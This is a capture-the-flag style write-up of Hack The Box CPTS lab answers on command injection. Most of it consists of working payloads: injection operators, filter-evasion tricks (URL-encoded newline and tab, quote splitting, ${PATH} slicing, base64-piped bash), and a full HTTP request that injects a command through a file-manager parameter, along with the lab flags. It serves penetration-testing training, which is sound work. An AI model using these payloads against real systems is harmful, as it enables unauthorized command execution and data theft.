

# CPTS labs - 21 Command injections


## [Command Injections](https://academy.hackthebox.com/module/details/109)

### Exploitation

**Try adding any of the injection operators after the ip in IP field. What did the error message say (in English)?**

Inject directly on the website and there is some frontend side sanitization.

Results: Please match the requested format.

Review the HTML source code of the page to find where the front-end input validation is happening. On which line number is it?



Results: 17


**Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?**

```bash
# After trying the three of them:
ip=127.0.0.1+|+whoami
ip=127.0.0.1\nwhoami
ip=127.0.0.1+&+whoami

```

Results: `|`


### Filter Evasion

**Try all other injection operators to see if any of them is not blacklisted. Which of (new-line, &, |) is not blacklisted by the web application?**

```bash
# Use url-encoded character for new line
%0a

# As 'whoami' is being filtered, as single quotes are being removed, use:
whoam'i

# As blank spaces are being removed, user an url-encoded expression for TAB
%09

# All together
ip=127.0.0.1%0a%09whoam'i
```

Results: new-line


**Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file?**

```bash
# We enter as input
ip=127.0.0.1%0a{ls,-la}
```

Results: 1613

**Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?**

```bash
ip=127.0.0.1%0a%09ls%09${PATH:10:1}home
```


**Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.**

```bash
# First we list the directory
ip=127.0.0.1%0a%09ls%09${PATH:10:1}home${PATH:10:1}1nj3c70r

# Now we print the flag.txt. As cat command is blacklisted we will use doble quotes to bypass the restriction. We will use the environmental variable PATH to print /
127.0.0.1%0a%09"ca"t%09${PATH:10:1}home${PATH:10:1}1nj3c70r${PATH:10:1}flag.txt
```

Results: HTB{b451c_f1l73r5_w0n7_570p_m3}


**Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1**

```bash
echo -n "find /usr/share/ | grep root | grep mysql | tail -n 1" | base64
# Output:
# ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=

127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

Results: /usr/share/mysql/debian_create_root_user.sql


### Skills Assessment

You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

 **Authenticate to with user "guest" and password "guest". What is the content of '/flag.txt'?**

Move feature: 
 
```bash
GET /index.php?to=&from=696212415.txt\\\n%09%60'c'at%09${PATH:0:1}flag.txt%60&finish=1&move=1 HTTP/1.1
Host: 94.237.50.242:34291
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.50.242:34291/index.php?to=&from=696212415.txt
Cookie: filemanager=pni25scv3jtjvsf311dmj1b6o7
Upgrade-Insecure-Requests: 1
```

Results: HTB{c0mm4nd3r_1nj3c70r}

